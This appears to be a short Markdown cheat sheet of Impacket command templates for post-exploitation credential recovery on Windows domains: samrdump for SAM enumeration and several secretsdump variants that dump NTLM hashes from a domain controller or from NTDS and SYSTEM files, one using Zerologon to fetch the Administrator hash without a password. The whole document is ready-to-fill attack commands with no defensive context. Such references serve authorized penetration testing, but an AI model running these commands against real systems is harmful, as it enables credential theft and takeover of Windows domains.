 # Impacket

% impacket, windows, smb, 445

## samrdump - system account, shares, etc... (dump info from the Security Account Manager (SAM))
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
samrdump.py <domain>/<user>:<password>@<ip>
```

## secretsdump
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py '<domain>/<user>:<password>'@<ip>
```

## secretsdump local dump hash
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -ntds <ntds_file.dit> -system <SYSTEM_FILE> -hashes <lmhash:nthash> LOCAL -outputfile <ntlm-extract-file>
```

## secretsdump - anonymous get administrator 
zerologon
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py <domain>/<dc_bios_name>\$/@<ip> -no-pass -just-dc-user "Administrator"
```

## secretsdump - remote extract
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc-ntlm -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<ip>
```

## secretsdump - remote extract + users infos
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc -pwd-last-set -user-status -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<ip>
```


